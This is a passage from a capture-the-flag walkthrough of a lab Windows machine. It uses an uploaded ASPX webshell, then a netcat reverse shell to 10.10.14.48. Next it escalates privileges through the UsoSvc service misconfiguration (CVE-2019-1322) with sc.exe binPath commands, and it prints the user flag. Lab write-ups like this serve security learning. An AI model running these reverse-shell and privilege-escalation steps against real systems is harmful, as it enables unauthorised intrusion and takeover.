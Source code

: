 Now I navigate to `http://10.10.10.180/umbraco/cmdasp.aspx` in the web browser to access the webshell and then to execute the shell I go to `C:\inetpub\wwwroot\Media\1036\shell.exe`. I make sure to have my listener set up before hand.

![shell.png](../../_resources/4f1dc83be5b243fd9701d99adf82756a.png)

With the shell on the system I can now read the `user.txt` file.
```{.txt}
C:\Users\Public>type user.txt
2e7f931478cf7b5ce9307f81ecc1b4a0
```
Next I upload winPEASx64.exe to the system and run it. Looking through the results I see that I have full access to the service `UsoSvc`.

![uso.png](../../_resources/80cb7fa9c47d40fda40e054c5eefb9f6.png)

UsoSvc is vulnerable (CVE-2019-1322). I first upload a netcat binary to the box. I then change the binPath of the UsoSvc service to execute a netcat reverse shell command to give myself a system shell. Lastly I stop/start the service to trigger the command.
```

C:\Users\Public>sc.exe config usosvc binPath= "C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12345"
sc.exe config usosvc binPath= "C:\inetpub\wwwroot\Media\1034\nc64.exe -e cmd.exe 10.10.14.48 12345"
[SC] ChangeServiceConfig SUCCESS

C:\Users\Public>sc.exe stop usosvc
sc.exe stop usosvc

SERVICE_NAME: usosvc
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530

C:\Users\Public>sc.exe start usosvc
sc.exe start usosvc
```
I check my listener and get a connection back. Problem is the shell will most likely die because netcat is not a service binary so to keep a persistent shell I run a second netcat command within the reverse webshell
```{.txt}
root@kali:~# nc -lvnp 12345
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::12345
```
